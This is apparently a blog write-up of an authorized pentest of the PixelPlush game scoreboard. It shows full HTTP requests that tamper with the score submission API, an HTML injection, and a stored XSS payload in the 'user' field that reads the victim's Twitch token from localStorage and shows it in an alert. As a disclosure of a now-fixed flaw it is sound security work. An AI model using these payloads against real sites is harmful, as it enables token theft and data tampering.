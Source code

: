 ```yaml
---
title: 'Pentesting | XSS in the Pixelplush Scoreboard'
date: "2021-05-25T00:00:00Z"
tags: [xss,pixelplush]
categories: [Pentests]
---
```


This writeup is about the **XSS in the [PixelPlush](https://pixelplush.dev) Scoreboard**. 

NOTE: Please always ask for permissions when pentesting a website!



When I decided to pentest [PixelPlush](https://pixelplush.dev) (ofcourse with permission), I was looking for possible vulnerable endpoints that possibly reflect data into a page. I saw that the site has a scoreboard for the Parachute game, and decided this is a nice place to start.



First I took a look at the requests the page made, This one stood out.

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/get-scoreboard-scores.png)



It returns JSON, In this case an array with objects that contain the username, the score and the user-id.

I will provide a example object below.

```json
{
  "userId": "13371337",
  "username": "leethaxor",
  "user": "leethaxor",
  "score": 99.99,
  "created": "2021-05-13T17:16:29.468Z",
  "updated": "2021-05-13T17:16:29.468Z"
}
```



Now we need to know the endpoint that submits the points.

We can simply do this by starting the overlay ourselves and playing it, while having burp open to capture any requests it makes. Finally after a few tries I win some points and a request is made.



![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/post-add-score.png)



The data being send is a JSON Object (sample down below)

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "parachute",
  "theme": "Pixel Parachute (Day)",
  "user": "PortaalGaming",
  "score": "92.98",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

The URL its being send to is https://api.pixelplush.dev/v1/scores/add

Lets send this request to the repeater in Burp Suite. First we can test changing the score count over 100, cause 100 is the limit of the game.



Lets send the following request

```http
POST /v1/scores/add HTTP/1.1
Host: api.pixelplush.dev
Content-Length: 206
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Microsoft Edge";v="90"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://www.pixelplush.dev
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.pixelplush.dev/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Sec-Gpc: 1
Connection: close

{"token":"REDACTED","channel":"portaalgaming","game":"writeup","theme":"Pixel Parachute (Day)","user":"PortaalGaming","score":"999999","userId":"244294836","username":"portaalgaming"}
```



When we now open the page (or send a request to the points endpoint). And yes it set the amount of points, to over 100.

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/get-scoreboard-faked-points.png)

```json
[
  {
    "userId": "244294836",
    "username": "portaalgaming",
    "user": "PortaalGaming",
    "score": 999999,
    "created": "2021-05-25T08:17:56.807Z",
    "updated": "2021-05-25T08:17:56.807Z"
  }
]
```



Now that we know the score isn't safe, lets try to inject html into the user field. Maybe it will work.

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "writeup",
  "theme": "Pixel Parachute (Day)",
  "user": "<b>PortaalGaming",
  "score": "1337",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

And the server returns with

```json
{ "success": 1 }
```

Nice, it injected the code into the website. (Please note that this now has been fixed and you cant exploit it anymore)


Now lets inject some JavaScript to alert your twitch token. The twitch token is saved inside of the localStorage. 

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "writeup",
  "theme": "Pixel Parachute (Day)",
  "user": "<script>alert('H4x3d by Daanbreur. Your twitch token is: '+localStorage.getItem('twitchToken'))</script>",
  "score": "1337",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

And if you now open the website, navigate to the scoreboard and open my page, you would have been greeted with an alert that told your twitch token!

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/xss-alert.png)


**Big Thanks to [Instafluff](https://twitch.tv/instafluff) Creator of Pixelplush for letting me pentest the website and write this writeup!**
